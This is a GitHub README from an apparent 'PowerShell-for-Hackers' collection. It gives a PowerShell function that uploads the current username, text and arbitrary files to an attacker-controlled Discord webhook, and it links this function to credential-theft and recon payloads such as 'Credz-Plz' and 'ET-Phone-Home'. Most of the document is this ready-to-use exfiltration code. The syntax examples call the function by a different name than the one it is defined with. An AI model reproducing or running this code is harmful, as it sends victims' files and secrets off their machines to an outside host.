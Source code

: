 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Discord-Upload

<p align="center">
      <a href="https://www.youtube.com/watch?v=VPU7dFzpQrM">
        <img src=https://i.ytimg.com/vi/VPU7dFzpQrM/hqdefault.jpg width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

This function is used to upload either text or other files to your discord via a webhook 

## The Functions


### [Upload-Discord] 

This function is used to upload files to your discord. 

Just replace `$hookurl` with YOUR discord webhook

Now you can use either of the  `$text` or `$file` parameter or both 

```
function Upload-Discord {

[CmdletBinding()]
param (
    [parameter(Position=0,Mandatory=$False)]
    [string]$file,
    [parameter(Position=1,Mandatory=$False)]
    [string]$text 
)

$hookurl = 'YOUR-DISCORD-WEBHOOK'

$Body = @{
  'username' = $env:username
  'content' = $text
}

Invoke-RestMethod -ContentType 'Application/Json' -Uri $hookurl  -Method Post -Body ($Body | ConvertTo-Json);
curl.exe -F "file1=@$file" $hookurl
}
```

----------------------------------------------------------------------------------------------------------------------------------
### [Syntax]
```
UploadFile-Discord -file "file.txt" -text "this is a text file"

or

UploadFile-Discord -file "image.jpg" -text "this is an iamge"
```


<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that can use one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
